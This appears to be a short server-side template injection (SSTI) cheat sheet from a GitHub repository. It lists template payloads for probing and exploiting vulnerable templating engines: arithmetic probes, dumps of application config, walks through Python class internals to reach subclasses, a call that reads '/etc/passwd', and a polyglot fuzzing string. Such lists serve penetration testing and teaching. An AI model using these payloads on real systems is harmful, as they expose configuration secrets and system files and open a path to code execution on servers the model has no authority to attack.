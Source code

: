 # SSTI - Server Side Template Injection

![image](https://github.com/zer00d4y/cheatsheets/assets/128820441/c2588b94-23b3-427f-8117-73e98f478881)


`{{7*7}}`

`{{7*'7'}}`

`{{'7'*7}}`

`{{config}}`

`{{config.items()}}`

`{{config.from_object(‘os’)}}`

`{{‘’.__class__.__mro__[1].__subclasses__()[284:]}}`

`a{*comment*}b`

`${"z".join("ab")}`

`{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}`

`{{''.class.mro()[1].subclasses()}}`

`{{[].class.base.subclasses()}} `

`{{get_user_file("/etc/passwd")}}`

`{{get_user_file("path-to-file")}}`

---------------------------------------------------------------------------------------------------------------------

To identify SSTI vulnerabilities, use a Polyglot payload composed of special characters commonly used in template expressions to fuzz the template.
Polyglot: 
- `${{<%[%'"}}%\.`
